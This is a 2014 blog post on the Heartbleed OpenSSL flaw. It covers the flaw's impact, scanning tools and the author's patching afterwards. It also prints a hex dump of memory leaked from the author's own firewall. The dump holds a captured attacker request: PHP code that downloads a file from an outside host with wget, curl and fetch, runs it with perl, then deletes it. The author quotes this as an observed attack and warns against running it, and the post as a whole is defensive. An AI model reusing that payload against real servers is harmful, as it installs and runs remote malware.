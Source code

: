 ```yaml
---
layout: post
title: "1f j00 R R34d1N 7h12 m3m0ry j00 R pWN3D"
date: 2014-04-10 12:05:03 -0500
comments: false
categories:
- Networking
- Security
- Programming
- SSL
- ISP
---
```

Another huge blunder this week in the ubiquitous OpenSSL library <a href="https://www.openssl.org/news/secadv_20140407.txt" target="_blank">[secadv]</a>. This one's called <a href="http://heartbleed.com/" target="_blank">Heartbleed</a>. You can easily check if your services are vulnerable at <a href="http://filippo.io/Heartbleed/" target="_blank">filippo.io/Heartbleed</a>. This one is particularly scary as it allows reading random private memory directly from the server/device/etc. This may include decrypted SSL transactions, certs, private keys, and other random memory. So far I have only seen other SSL requests, and public certificate chains from my own devices.

XKCD has a comic which [explains Heartbleed](http://xkcd.com/1354/) VERY well.

<!--more-->

The implications are huge. Luckily it only affects OpenSSL 1.0.1 to 1.0.1f (and some beta 1.0.2 versions.. but you'd never run beta in production right?). 1.0.1g is not affected. Older versions are ok here as well. So my recent push for [Upgraded SSL Ciphers](/blog/2014/01/12/ssl-ciphers/) bit me in the ass. Some of the various devices affected are included in this <a href="https://www.cert.fi/en/reports/2014/vulnerability788210.html" target="_blank">advisory from NSCS-FI</a>. There are a lot of devices which use OpenSSL. There are many, many Linux/BSD distributions which shipped vulnerable OpenSSL packages/libs as well. Again, like the other SSL problems earlier this year, there will be implications from this for a long time because all sorts of embedded systems and devices won't get updated (potentially ever).

If you need to mass-scan your network(s), nmap has a <a href="https://svn.nmap.org/nmap/scripts/ssl-heartbleed.nse" target="_blank">script for that</a> <a href="http://nmap.org/nsedoc/scripts/ssl-heartbleed.html" target="_blank">[docs]</a>.

Here is an interesting chunk of memory pulled from a vulnerable firewall using one of several <a href="https://ccdn.tracetracker.com/ssltest.py" target="_blank">widely</a> <a href="https://gist.github.com/siboulet/10154829" target="_blank">available</a> <a href="https://github.com/musalbas/heartbleed-masstest/blob/master/ssltest.py" target="_blank">ssltest.py</a> POCs. This is someone elses encrypted request body. Someone, or more likely something pretending to be a Googlebot, and sending a php file attachment with some badness in it. I would not recommend running the below hex decoded PHP code in the request, nor downloading the f.txt (and especially not executing it), unless you are a malware researcher.

```
  0200: 70 61 74 69 62 6C 65 3B 20 47 6F 6F 67 6C 65 62  patible; Googleb
  0210: 6F 74 2F 32 2E 31 3B 20 2B 68 74 74 70 3A 2F 2F  ot/2.1; +http://
  0220: 77 77 77 2E 67 6F 6F 67 6C 65 2E 63 6F 6D 2F 62  www.google.com/b
  0230: 6F 74 2E 68 74 6D 6C 29 0D 0A 43 6F 6E 74 65 6E  ot.html)..Conten
  0240: 74 2D 54 79 70 65 3A 20 61 70 70 6C 69 63 61 74  t-Type: applicat
  0250: 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F 72 6D 2D 75  ion/x-www-form-u
  0260: 72 6C 65 6E 63 6F 64 65 64 0D 0A 43 6F 6E 74 65  rlencoded..Conte
  0270: 6E 74 2D 4C 65 6E 67 74 68 3A 20 32 35 31 0D 0A  nt-Length: 251..
  0280: 0D 0A 3C 3F 70 68 70 20 65 63 68 6F 20 22 43 6F  ..<?php echo "Co
  0290: 6E 74 65 6E 74 2D 54 79 70 65 3A 74 65 78 74 2F  ntent-Type:text/
  02a0: 68 74 6D 6C 5C 72 5C 6E 5C 72 5C 6E 22 3B 65 63  html\r\n\r\n";ec
  02b0: 68 6F 20 22 62 75 6E 34 22 2E 70 68 70 5F 75 6E  ho "bun4".php_un
  02c0: 61 6D 65 28 29 2E 22 73 74 30 70 22 3B 73 79 73  ame()."st0p";sys
  02d0: 74 65 6D 28 22 63 64 20 2F 74 6D 70 3B 77 67 65  tem("cd /tmp;wge
  02e0: 74 20 77 67 65 74 20 68 74 74 70 3A 2F 2F 77 77  t wget http://ww
  02f0: 77 2E 63 6F 72 64 6F 62 79 74 65 2E 63 6F 6D 2F  w.cordobyte.com/
  0300: 66 2E 74 78 74 3B 63 75 72 6C 20 2D 4F 20 68 74  f.txt;curl -O ht
  0310: 74 70 3A 2F 2F 77 77 77 2E 63 6F 72 64 6F 62 79  tp://www.cordoby
  0320: 74 65 2E 63 6F 6D 2F 66 2E 74 78 74 3B 66 65 74  te.com/f.txt;fet
  0330: 63 68 20 68 74 74 70 3A 2F 2F 77 77 77 2E 63 6F  ch http://www.co
  0340: 72 64 6F 62 79 74 65 2E 63 6F 6D 2F 66 2E 74 78  rdobyte.com/f.tx
  0350: 74 3B 70 65 72 6C 20 66 2E 74 78 74 3B 70 65 72  t;perl f.txt;per
  0360: 6C 20 66 2E 74 78 74 3B 72 6D 20 2D 72 66 20 66  l f.txt;rm -rf f
  0370: 2E 2A 22 29 3B 65 78 69 74 3B 20 3F 3E 87 5C 06  .*");exit; ?>.\.
  0380: 85 8C 9C E2 46 93 40 CF 62 D0 F7 E7 B4 4A AB 3A  ....F.@.b....J.:
  0390: 80 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E  ................
```

**Update several days later**:

So the majority of the pain is over. Systems are patched and updated. Passwords changed. Certificates reissued (this was surprisingly easy!) and re-installed on various devices. Luckily for my usage, all of my OpenSSL 1.0.1 systems had PFS enabled, so private data should be private.
